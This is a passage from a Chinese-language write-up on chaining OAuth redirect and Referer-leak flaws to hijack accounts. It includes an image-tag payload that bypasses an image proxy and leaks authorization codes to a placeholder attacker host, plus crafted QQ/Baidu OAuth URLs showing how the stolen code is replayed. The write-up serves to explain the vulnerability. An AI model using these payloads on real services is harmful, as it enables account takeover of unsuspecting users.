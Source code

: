   组合：要是没有第一个漏洞，第二个漏洞也会要毫无价值。但是，它们却组合成一个很强大的漏洞——攻击者可以劫持一个签发给泄露的重定向uri的授权令牌，然后把这个泄露的令牌用在真正的客户端回调URl上，从而登陆受害者的账户。 

  **0x3漏洞3. 在A.COM中注入跨站图片**

  前面的攻击尝试就利用到了这一点，基本上，泄露的Referers有两个向量：用户点击一个链接（需要交互）或用户代理载入一些跨站资源，比如`<img> `,我不能简单的注入（img src=http://attackersite.com），因为这会替换成camo-proxy URL，这样就不能把Referer头传递到攻击者的主机。为了能够绕过Camo-s 过滤器，这里有一个小技巧：`<img src="///attackersite.com">`关于`///`可以参考[开放重定向漏洞进展](http://homakov.blogspot.com/2014/01/evolution-of-open-redirect-vulnerability.html)这篇文章。

  于是可以精心构造一个如下URL:

  ```php+HTML
  https://graph.qq.com/oauth2.0/show?which=Login&display=pc&response_type=code&client_id=100273020&redirect_uri=http://a.com/auth/callback/homakov/8820324&code
  ```

  当用户载入这个url时，网站会重定向自己。对应地址：

  ```php
  http://a.com/auth/callback/homakov/8820324?code=CODE
  ```

  以a.com为百度云为例具体如：

  ![baidu3]({{site.baseurl}}/assets/images/OAuth/baidu3.png)

  ​                                     图1(referer )

  ![baidu1]({{site.baseurl}}/assets/images/OAuth/baidu1.png)

  ​                                      图2(重定向)

  

但是用户代理载入为：

```
https://a.com/homakov/8820324?code=CODE
```

那么用户代理会把发送请求的CODE泄露给我们的`<img>`： 

![785f6c5e444f7d478455f36c2b1bd5dc]({{site.baseurl}}/assets/images/OAuth/785f6c5e444f7d478455f36c2b1bd5dc.png)

一旦我们获得受害者的CODE，我们点击 ： 

```php
https://a.com/auth/github/callback?code=CODE
```

我们便登陆进了受害者的账号 。